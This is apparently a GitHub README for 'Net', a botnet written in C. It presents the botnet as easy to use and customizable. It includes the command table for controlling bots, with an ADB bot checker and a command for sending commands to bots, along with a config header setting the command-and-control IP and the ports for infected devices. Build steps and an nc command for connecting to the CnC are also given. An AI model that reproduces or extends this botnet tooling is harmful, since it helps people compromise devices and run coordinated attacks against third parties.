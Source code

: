 <h1 align="center">
	<img src="https://icon-library.com/images/server-icon/server-icon-24.jpg" width="150px"><br>
    Net - A botnet written in C.
</h1>
<p align="center">
	Net is a very easy-to-use botnet that several options while being highly customizable.
</p>

<p align="center">
	<a href="https://deno.land" target="_blank">
    	<img src="https://img.shields.io/badge/Version-1.0.0-7DCDE3?style=for-the-badge" alt="Version">
</p>

## Features
Feature  | Description
-------- | -----------
Multi-threading | The server works in the background while the CLI is running.
Sending data | You can send data to all the connected devices.
Clean interface | Net has an easy-to-use clean CLI that is easy to navigate.
Dynamic Commands | Net makes it very easy for you to add your own commands.
	
## Dynamic Commands & Custom Commands
To add commands, simply create your function and then add the custom command and function to `botnet_commands` as shown below.
```c
struct function botnet_commands[] = {
    {"custom_command", custom_function}, // <- The custom command goes right here! Make sure you have already written your function!
    {"?", help_menu},
    {"help", help_menu},
    {"bots", bot_count},
    {"list", bot_count},
    {"adb_check", adb_bot_checker},
    {"command", send_bot_commands},
    {"server", cnc_details},
    {"banner", display_banner},
    {"clear", clear_screen},
    {"cls", clear_screen},
};
```

## Configuration
To edit the configuration for the botnet, head over to `includes/config/config.h`.
```c
#pragma once


/*
    *    includes/config/config.h
    *    Date: 11/09/21
    *    Author: 0x1CA3
*/


#define USERNAME "admin"
#define PASSWORD "password"
#define MAX_DEVICES 99999
#define CNC_IP "127.0.0.1"
#define CNC_PORT 1337 /* This is the port your bots/infected devices will use to connect */
#define ADMIN_PORT 1233 /* This is the port you will use when connecting to the admin panel */					       
```

## Installation & Setup
```
gcc -o net net.c -lpthread
./net
Open up a new terminal window
Connect to the CnC | Example: nc 127.0.0.1 3434
Login with the default credentials [admin:net]
```

## Screenshots
![botnet.png](https://user-images.githubusercontent.com/86132648/133769422-7a341223-bb15-440f-a437-b285c168307d.PNG)

## Credits
```
https://github.com/0x1CA3
```
### Contributions 🎉
###### All contributions are accepted, simply open an Issue / Pull request.
